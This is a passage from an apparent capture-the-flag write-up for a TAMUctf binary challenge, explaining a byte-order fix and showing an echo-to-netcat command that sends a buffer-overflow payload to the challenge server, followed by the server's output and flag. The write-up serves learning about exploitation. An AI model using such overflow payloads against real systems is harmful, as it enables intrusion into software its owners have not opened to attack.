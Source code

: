 - `cmp` instruction has 3 bytes size, so we do +3 and print 4 bytes of code;
- the second print takes 4 bytes of `@ebx-0x10`.

different byte order!

Let's modify our payload so last 4 bytes will be in reverse order:

```
$ echo -e 'Sir Lancelot of Camelot\nTo seek the Holy Grail.\naaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xc8\x10\xa1\xde' |nc pwn.tamuctf.com 4321
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
gigem{34sy_CC428ECD75A0D392}

```
